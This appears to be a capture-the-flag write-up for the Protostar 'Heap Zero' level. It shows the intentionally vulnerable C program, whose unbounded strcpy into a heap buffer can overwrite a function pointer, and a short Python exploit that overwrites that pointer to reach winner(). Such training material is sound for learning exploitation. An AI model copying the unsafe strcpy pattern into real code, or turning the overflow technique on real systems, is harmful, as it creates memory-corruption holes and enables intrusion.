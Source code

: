 # Heap Zero

## Description

This level introduces heap overflows and how they can influence code flow.

This level is at /opt/protostar/bin/heap0

## Source code

```cpp
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct data {
  char name[64];
};

struct fp {
  int (*fp)();
};

void winner()
{
  printf("level passed\n");
}

void nowinner()
{
  printf("level has not been passed\n");
}

int main(int argc, char **argv)
{
  struct data *d;
  struct fp *f;

  d = malloc(sizeof(struct data));
  f = malloc(sizeof(struct fp));
  f->fp = nowinner;

  printf("data is at %p, fp is at %p\n", d, f);

  strcpy(d->name, argv[1]);
  
  f->fp();

}
```

## Exploit script

```python
from os import system

payload =  "A"*72
payload += "\x64\x84\x04\x08"   # winner -> 0x08048464

system('./heap0 ' + '\"' + payload + '\"')
```

Level passed!

<p align="center">
    <img src="./done.png">
</p>